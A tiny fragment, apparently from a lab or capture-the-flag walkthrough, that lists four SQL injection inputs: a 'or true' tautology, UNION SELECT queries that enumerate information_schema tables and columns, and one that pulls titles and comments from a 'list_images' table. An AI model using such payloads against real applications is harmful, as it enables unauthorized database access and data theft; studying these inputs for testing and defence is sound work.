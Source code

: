 1 or true 
2 or true union select table_name, table_type from information_schema.tables 
3 or true union select table_name, column_name from information_schema.columns
4 or true union select title, comment from list_images
